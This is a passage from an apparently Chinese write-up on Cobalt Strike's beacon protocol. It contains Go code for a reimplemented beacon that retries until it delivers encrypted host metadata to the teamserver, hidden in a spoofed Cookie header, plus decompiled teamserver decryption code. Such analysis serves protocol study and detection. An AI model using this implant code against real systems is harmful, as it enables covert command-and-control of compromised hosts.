   
其中Cookie中对应的SESSIONID的值就是加密之后的源数据。这里的Cookie和SESSIONID是自定义的，所以需要cobaltstrike根据实际的profile解析。  
  
当收到http
get请求时，cobaltstrike就会根据profile的设置提取出Cookie中SESSIONID的值，也就是WI71wcgrH+kAG/NBYK5qCQ==，将这个值进行base64解密，得到的就是rsa加密后的源数据。  
 **封包 ****  
**模拟对于的http get的请求完善http header。

  *   *   *   *   *   * 

    
    
     Getheader = req.Header{    "Cookie":"SESSIONID=%ENCDATA%",    "Accept":"*/*",    "User-Agent":"Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; NP06)",  
    }

  
然后将需要发送的数据替换其中的%ENCDATA%，再进行http 发送。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func HttpGet(url string, encData string) []byte {    httpRequest := req.New()    for k,v := range config.Getheader{        if strings.Contains(v,"%ENCDATA%"){            config.Getheader[k] = strings.Replace(v, "%ENCDATA%", encData, -1 )        }    }  
        resp, err := httpRequest.Get(url, config.Getheader)    if err != nil {        fmt.Printf("[-] Get http data error: %s\n", err.Error())        return  nil    }  
        defer resp.Response().Body.Close()    if resp.Response().StatusCode != http.StatusOK {        fmt.Printf("[-] Get http response status code: %s\n", resp.Response().StatusCode)        return nil    }else {        return resp.Bytes()    }}

  
调用httpGet函数，将beacon的源数据发送到ts。

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    func FirstBlood() bool {    encryptedMetaInfo = EncryptedMetaInfo()    for {        respBytes := HttpGet(config.GetUrl, encryptedMetaInfo)        if respBytes != nil {            break        }        time.Sleep(time.Duration(config.Sleep) * time.Millisecond)    }    return true}

  
 **1.1.2** **解析** **Beacon** **源数据 ****  
****解析 ****  
**将rsa加密之后的源数据提取出来之后，就需要解密这些源数据，dns/AsymmetricCrypto.class

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     public byte[] decrypt(byte[] var1) {    byte[] var2 = new byte[0];  
        try {        //rsa解密        synchronized(this.cipher) {            this.cipher.init(2, this.privatekey);            var2 = this.cipher.doFinal(var1);        }  
            DataInputStream var3 = new DataInputStream(new ByteArrayInputStream(var2));        int var4 = var3.readInt();        if (var4 != 48879) { //对比魔术头 4字节            System.err.println("Magic number failed :( [RSA decrypt]");            return new byte[0];        } else {            int var5 = var3.readInt();            if (var5 > 117) {//对比metadata数据长度 4字节                System.err.println("Length field check failed :( [RSA decrypt]");                return new byte[0];            } else {                byte[] var6 = new byte[var5];                var3.readFully(var6, 0, var5);                return var6;            }        }    } catch (Exception var8) {        MudgeSanity.logException("RSA decrypt", var8, false);        return new byte[0];    }}
